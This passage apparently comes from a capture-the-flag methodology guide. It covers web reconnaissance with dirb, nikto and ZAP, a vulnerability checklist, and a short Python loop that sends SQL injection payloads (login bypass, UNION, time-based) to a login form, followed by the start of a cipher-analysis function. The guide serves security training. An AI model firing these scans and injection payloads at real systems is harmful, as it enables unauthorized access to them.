 ```bash
dirb http://target.com
```

### Phase 2: Vulnerability Assessment
```bash
# Automated scanning
nikto -h http://target.com
zap-baseline.py -t http://target.com

# Manual testing checklist
- [ ] SQL injection in forms/parameters
- [ ] XSS in input fields  
- [ ] Directory traversal in file parameters
- [ ] Command injection in system interfaces
- [ ] Authentication bypass attempts
- [ ] Session management flaws
- [ ] File upload vulnerabilities
```

### Phase 3: Exploitation Development
```python
# Example SQL injection testing
import requests

url = "http://target.com/login"
payloads = [
    "admin'--",
    "admin' OR '1'='1'--", 
    "' UNION SELECT 1,2,3--",
    "'; WAITFOR DELAY '00:00:05'--"
]

for payload in payloads:
    data = {"username": payload, "password": "test"}
    response = requests.post(url, data=data)
    if "welcome" in response.text.lower() or response.elapsed.total_seconds() > 5:
        print(f"Potential vulnerability with payload: {payload}")
```

---

## 🔐 Cryptography Methodology

### Phase 1: Cipher Identification
```python
def analyze_crypto_challenge(ciphertext):
    analysis = {
        'length': len(ciphertext),
        'charset': set(ciphertext),
        'patterns': {},
        'statistics': {}
    }
    
    # Character frequency analysis
    from collections import Counter
    freq = Counter(ciphertext)
    analysis['frequency'] = freq.most_common(10)
    
    # Pattern detection
    analysis['has_spaces'] = ' ' in ciphertext
    analysis['all_uppercase'] = ciphertext.isupper()
    analysis['numeric_only'] = ciphertext.isdigit()
```